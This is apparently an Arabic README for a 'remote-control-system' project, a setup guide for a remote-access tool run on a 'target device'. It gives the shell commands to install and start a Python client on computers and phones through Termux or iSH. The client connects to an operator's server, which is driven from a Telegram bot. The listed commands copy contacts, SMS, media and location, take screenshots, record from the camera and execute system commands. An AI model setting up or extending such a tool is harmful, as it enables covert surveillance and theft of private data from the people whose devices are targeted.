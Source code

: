 # 🔧 دليل إعداد الأجهزة الحقيقية

## 📋 **المتطلبات:**

### 1. **🖥️ جهاز حاسوب (Windows/Linux/Mac):**
- Python 3.8+
- اتصال بالإنترنت
- صلاحيات إدارية (اختياري)

### 2. **📱 هاتف ذكي (Android/iOS):**
- إمكانية تثبيت التطبيقات
- اتصال بالإنترنت
- صلاحيات المطور (Android)

## 🚀 **خطوات الإعداد:**

### **الخطوة 1: تثبيت برنامج العميل**

```bash
# الانتقال إلى مجلد العميل
cd remote-control-system/client

# تثبيت المتطلبات
pip install -r requirements.txt

# جعل الملف قابل للتنفيذ
chmod +x client.py
```

### **الخطوة 2: تشغيل العميل**

```bash
# تشغيل العميل على الجهاز المستهدف
python client.py ws://YOUR_SERVER_IP:8080 DEVICE-REAL-001
```

**مثال:**
```bash
python client.py ws://192.168.1.100:8080 MY-PHONE-001
```

### **الخطوة 3: ربط الجهاز بالبوت**

1. **استخدم أمر `/link` في البوت**
2. **احصل على كود التفعيل**
3. **أدخل الكود في العميل أو استخدم التفعيل التلقائي**

## 📱 **للهواتف الذكية:**

### **Android:**
1. تثبيت Termux من Google Play
2. تثبيت Python في Termux
3. تشغيل العميل كما هو موضح أعلاه

### **iOS:**
1. تثبيت iSH من App Store
2. تثبيت Python في iSH
3. تشغيل العميل

## 🔧 **الأوامر المتاحة:**

### **أوامر أساسية:**
- `backup_contacts` - نسخ جهات الاتصال
- `backup_sms` - نسخ الرسائل النصية
- `backup_media` - نسخ الوسائط
- `get_location` - الحصول على الموقع
- `take_screenshot` - التقاط لقطة شاشة
- `record_camera` - تسجيل الكاميرا

### **أوامر متقدمة:**
- `system_info` - معلومات النظام
- `execute_command` - تنفيذ أمر نظام

## ⚠️ **ملاحظات مهمة:**

1. **🔒 الأمان:** تأكد من أن الجهاز المستهدف آمن
2. **📡 الشبكة:** تأكد من أن الخادم متاح من الجهاز
3. **🔧 الصلاحيات:** بعض الأوامر تحتاج صلاحيات إدارية
4. **⚡ البطارية:** العميل يستهلك البطارية عند التشغيل

## 🎯 **اختبار النظام:**

### **1. تشغيل الخادم:**
```bash
cd remote-control-system/command-server
python server.py
```

### **2. تشغيل البوت:**
```bash
cd remote-control-system/telegram-bot
python bot.py
```

### **3. تشغيل العميل على الجهاز المستهدف:**
```bash
cd remote-control-system/client
python client.py ws://SERVER_IP:8080 DEVICE-ID
```

### **4. اختبار الأوامر:**
- استخدم `/devices` في البوت لرؤية الأجهزة المتصلة
- استخدم `/contacts` لنسخ جهات الاتصال
- استخدم `/sms` لنسخ الرسائل
- استخدم `/media` لنسخ الوسائط

## 🔄 **التحديثات:**

### **لإيقاف العميل:**
```bash
# اضغط Ctrl+C في نافذة العميل
```

### **لإعادة تشغيل العميل:**
```bash
# أعد تشغيل الأمر
python client.py ws://SERVER_IP:8080 DEVICE-ID
```

## 📊 **مراقبة الأداء:**

### **ملفات السجل:**
- `client.log` - سجل العميل
- `server.log` - سجل الخادم
- `bot.log` - سجل البوت

### **فحص الاتصال:**
```bash
# فحص الاتصال بالخادم
curl http://SERVER_IP:10001/status
```

## 🆘 **حل المشاكل:**

### **مشكلة الاتصال:**
1. تأكد من أن الخادم يعمل
2. تحقق من عنوان IP الخادم
3. تأكد من فتح المنافذ المطلوبة

### **مشكلة الأوامر:**
1. تحقق من سجل العميل
2. تأكد من الصلاحيات
3. تحقق من إعدادات الأمان

## 📞 **الدعم:**

إذا واجهت أي مشاكل، راجع:
1. ملفات السجل
2. إعدادات الشبكة
3. صلاحيات النظام
4. إعدادات الأمان